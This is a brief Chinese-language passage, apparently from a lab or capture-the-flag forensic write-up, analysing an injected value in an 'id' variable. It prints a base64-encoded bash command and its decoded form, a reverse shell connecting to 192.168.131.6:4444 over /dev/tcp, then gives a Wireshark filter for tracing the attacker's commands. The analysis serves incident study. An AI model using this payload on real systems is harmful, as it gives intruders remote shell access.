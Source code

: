 代码将下面的内容传递给 `id` 变量

```bash
"bash -c {echo,YmFzaCAtYyAnMDwmMTIzLTtleGVjIDEyMzw+L2Rldi90Y3AvMTkyLjE2OC4xMzEuNi80NDQ0O3NoIDwmMTIzID4mMTIzIDI+JjEyMyc=}|{base64,-d}|bash"
```

很容易发现是 `base64`编码，解码后得到:

![](./img/DMZ入口靶标分析，base64解码.png)

```bash
bash -c '0<&123-;exec 123<>/dev/tcp/192.168.131.6/4444;sh <&123 >&123 2>&123'
```

可见创建了一个 TCP 连接到 `192.168.131.6:4444`同时 `sh <&123 >&123 2>&123`将 shell 输入、输出、错误流全部重定向到 TCP 连接，建立反向 shell

在 wireshark 中通过下面的过滤条件可以找到攻击者连接 shell 后执行的命令：

```
ip.src == 192.168.131.6 && tcp.port== 4444
```

